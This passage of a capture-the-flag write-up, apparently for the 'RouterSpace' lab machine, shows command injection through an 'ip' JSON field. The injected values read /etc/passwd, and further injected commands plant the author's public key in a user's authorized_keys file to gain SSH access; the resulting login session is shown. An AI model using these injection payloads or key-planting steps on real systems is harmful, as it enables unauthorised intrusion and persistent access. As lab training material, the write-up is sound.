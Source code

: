 After experimenting I find that we have command injection capabilities on the "ip" line. Modify the request like so and send it through, then look at the request response:

```
"ip":"0.0.0.0;cat /etc/passwd"
```

You'll get a list of users back if everything was done correctly.

If you do the same thing with command **whoami** you'll see that you're running as user **paul**.

At this point I set up a **nc listener** on my system and tried multiple different methods of getting a reverse shell back, but none of them were successful no matter if it were in php, perl, bash, etc. So it's likely there's a firewall blocking reverse shells.

To get around that I ended up creating an **authorized_keys** file in the **paul** home directory and adding my own **public rsa key** to it, then connected over via **ssh**. You can do that like this:

"ip":"0.0.0.0;touch /home/paul/.ssh/authorized_keys"

"ip":"0.0.0.0;echo 'Your public SA key' > /home/paul/.ssh/authorized_keys"

`ssh paul@10.10.11.148 `

<br>

## System Access

Now that we have that set I connect over through **ssh** and successfully login as **paul**:

```
Enter passphrase for key '/home/kali/.ssh/id_rsa': 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-90-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 03 Mar 2022 04:36:03 PM UTC

  System load:           0.0
  Usage of /:            71.4% of 3.49GB
  Memory usage:          18%
  Swap usage:            0%
  Processes:             215
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.148
  IPv6 address for eth0: dead:beef::250:56ff:feb9:3e61


80 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Sat Nov 20 18:30:35 2021 from 192.168.150.133
paul@routerspace:~$
```
